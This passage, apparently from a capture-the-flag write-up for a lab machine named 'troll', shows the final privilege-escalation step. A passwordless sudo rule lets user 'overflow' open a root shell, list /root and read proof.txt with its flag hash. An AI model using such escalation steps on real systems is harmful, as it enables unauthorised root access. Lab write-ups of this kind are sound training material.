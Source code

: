     User overflow may run the following commands on troll:
        (ALL : ALL) NOPASSWD: ALL
    
    $ sudo /bin/bash
    sudo: unable to resolve host troll
    root@troll:/# whoami
    root
    root@troll:/# ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:3b:96:d8 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.141/24 brd 192.168.2.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe3b:96d8/64 scope link 
           valid_lft forever preferred_lft forever
    root@troll:/# cat /root/
    .bash_history     proof.txt         .selected_editor  .ssh/             .viminfo          
    root@troll:/# cat /root/proof.txt 
    Good job, you did it! 
    
    
    702a8c18d29c6f3ca0d99ef5712bfbdc
    root@troll:/# 
    ```

    